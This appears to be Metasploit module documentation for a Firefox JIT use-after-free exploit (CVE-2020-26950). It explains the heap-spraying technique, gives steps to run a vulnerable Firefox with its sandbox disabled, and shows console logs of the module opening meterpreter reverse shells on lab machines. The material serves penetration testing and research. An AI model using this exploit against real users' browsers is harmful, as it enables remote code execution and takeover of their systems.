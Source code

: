 ## Vulnerable Application

This modules exploits CVE-2020-26950, a use after free exploit in Firefox.
The MCallGetProperty opcode can be emitted with unmet assumptions resulting
in an exploitable use-after-free condition.

This exploit uses a somewhat novel technique of spraying ArgumentsData
structures in order to construct primitives. The shellcode is forced into
executable memory via the JIT compiler, and executed by writing to the
JIT region pointer.

This exploit does not contain a sandbox escape, so firefox must be run
with the MOZ_DISABLE_CONTENT_SANDBOX environment variable set, in order
for the shellcode to run successfully.

This vulnerability affects Firefox < 82.0.3, Firefox ESR < 78.4.1, and
Thunderbird < 78.4.2.

**Vulnerable Application Installation Steps**

You can download and run a vulnerable firefox version on Linux with the following commands:
```
wget https://ftp.mozilla.org/pub/firefox/releases/79.0/linux-x86_64/en-US/firefox-79.0.tar.bz2
tar xvf firefox-79.0.tar.bz2
cd firefox
MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox
```

You can also download a vulnerable firefox version for Windows from the following location:
[https://ftp.mozilla.org/pub/firefox/releases/79.0/win64/en-US/](https://ftp.mozilla.org/pub/firefox/releases/79.0/win64/en-US/)

## Verification Steps

1. Do: `use exploit/linux/browser/firefox_jit_use_after_free
1. Do: `set payload [PAYLOAD]`
1. Do: `set URIPATH /`
1. Do: `set LHOST [IP]`
1. Do: `set SRVHOST [IP]`
1. Do: `exploit`

## Options

### DEBUG_EXPLOIT

Show debug information during exploitation.  This will display details of the exploit during exploitation, which is useful for debugging.

## Scenarios


### Windows 10 and Firefox 79.0 with MOZ_DISABLE_CONTENT_SANDBOX=1

Start firefox without a sandbox with the following .bat file:
```
@echo off
set MOZ_DISABLE_CONTENT_SANDBOX=1
"C:\Program Files (x86)\Mozilla Firefox\firefox.exe"
```


```
msf6 > use exploit/linux/browser/firefox_jit_use_after_free
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set DEBUG_EXPLOIT true
DEBUG_EXPLOIT => true
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set URIPATH /
URIPATH => /
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/browser/firefox_jit_use_after_free) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     firefox_jit_use_after_free - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
[*] 192.168.56.3     firefox_jit_use_after_free - [+] got the corrupted array 16384
[*] 192.168.56.3     firefox_jit_use_after_free - [+] Leaked nursery location: 153391619660
[*] 192.168.56.3     firefox_jit_use_after_free - [+] AD location: 23c12b2b000
[*] 192.168.56.3     firefox_jit_use_after_free - [+] AB Location: 23c26b00000
[*] 192.168.56.3     firefox_jit_use_after_free - [+] Function is at: 2723b4232d40
[*] 192.168.56.3     firefox_jit_use_after_free - [+]   jitinfo: 2723b4239150
[*] 192.168.56.3     firefox_jit_use_after_free - [+]   RX Region: 24ae6f6730
[*] 192.168.56.3     firefox_jit_use_after_free - [+] Shellcode start: 24ae6f6b90
[*] 192.168.56.3     firefox_jit_use_after_free - [*] Triggering...
[*] Sending stage (200262 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49737 ) at 2022-02-16 08:23:53 +0000

```

### Ubuntu 18 and Firefox 79.0 with MOZ_DISABLE_CONTENT_SANDBOX=1 and DEBUG_EXPLOIT enabled

Start Firefox without a sandbox, e.g:
`MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox`

```
msf6 > use exploit/linux/browser/firefox_jit_use_after_free
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set URIPATH /
URIPATH => /
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(linux/browser/firefox_jit_use_after_free) > set DEBUG_EXPLOIT true
DEBUG_EXPLOIT => true
msf6 exploit(linux/browser/firefox_jit_use_after_free) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/browser/firefox_jit_use_after_free) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.1     firefox_jit_use_after_free - Sending / to Mozilla/5.0 (X11; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
[*] 192.168.56.1     firefox_jit_use_after_free - [+] got the corrupted array 16384
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Leaked nursery location: 4aee8a4f6d8
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AD location: 7f27fb9cc000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AB Location: 7f27e7200000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Function is at: 10d4c755fac0
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   jitinfo: 10d4c7564150
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   RX Region: 3774356d0e50
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Shellcode start: 3774356d1030
[*] 192.168.56.1     firefox_jit_use_after_free - [*] Triggering...
[*] Sending stage (3020772 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:34946 ) at 2022-02-16 08:18:11 +0000
```
